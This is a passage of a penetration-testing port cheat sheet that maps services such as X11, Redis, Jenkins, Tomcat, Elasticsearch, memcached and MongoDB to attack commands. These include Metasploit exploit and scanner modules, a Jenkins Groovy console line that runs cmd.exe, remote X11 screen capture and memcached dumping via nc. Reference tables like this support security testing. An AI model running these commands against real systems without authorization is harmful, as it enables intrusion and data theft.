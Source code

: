 |6000|tcp|x11|xwd -root -screen -slient -display 192.168.1.108:0 > out.xwd<BR>convert out.xwd out.png|
|6379|tcp|redis|redis-cli -h 127.0.0.1 -p 6379<BR>msf >use auxiliary/scanner/redis/file_upload<BR>msf >use auxiliary/scanner/redis/redis_login<BR>use auxiliary/scanner/redis/redis_server|
|6380|tcp|redis||
|6082|tcp|varnish||
|6667|tcp|ircd backdoor|msf > use exploit/unix/irc/unreal_ircd_3281_backdoor|
|6881||BitTorrent||
|6969||TFTP,BitTorrent||
|7001|tcp|weblogic||
|8080|tcp|jekins|Jekins Console<BR>println "cmd.exe /c dir".execute().text<BR><BR>msf >use auxiliary/scanner/http/jenkins_enum<BR>msf >use exploit/multi/http/jenkins_script_console|
|8083|tcp|vestacp||
|8089|tcp|jboss||
|8101|tcp|apache karaf||
|8180|tcp|apache tomcat|msf > use exploit/multi/http/tomcat_mgr_deploy|
|8443|tcp|https||
|8554|tcp|rtsp||
|8649|tcp|ganglia||
|9009|tcp|Julia||
|9151|tcp|Tor Control||
|9160||Apache Cassandra||
|9200|tcp|elasticsearch|msf >use exploit/multi/elasticsearch/search_groovy_script|
|9418|tcp|git||
|10000|tcp|virtualmin/webmin||
|11211|tcp|memcache|msf > use auxiliary/gather/memcached_extractor<br>$ nc x.x.x.x 11211<BR>stats\r\n|
|13579||Media Player classic web interface||
|17185||VxWorks WDBRPC||
|18083|tcp|vbox server||
|27017|tcp|mongodb|msf >use auxiliary/scanner/mongodb/mongodb_login<BR>$ mongo host:port/database<BR>MongoDB shell version: 2.6.12<BR>> help|
|28017|tcp|mongodb||
|37777||Dahua DVR||
|44818||EtherNet/IP||
|49153||WeMo Link||
|50000|tcp|sap||
|50030|tcp|hadoop||
|50070|tcp|hadoop||
|51106||Deluge(HTTP)||
|54138||Toshiba PoS||
|55553||Metasploit||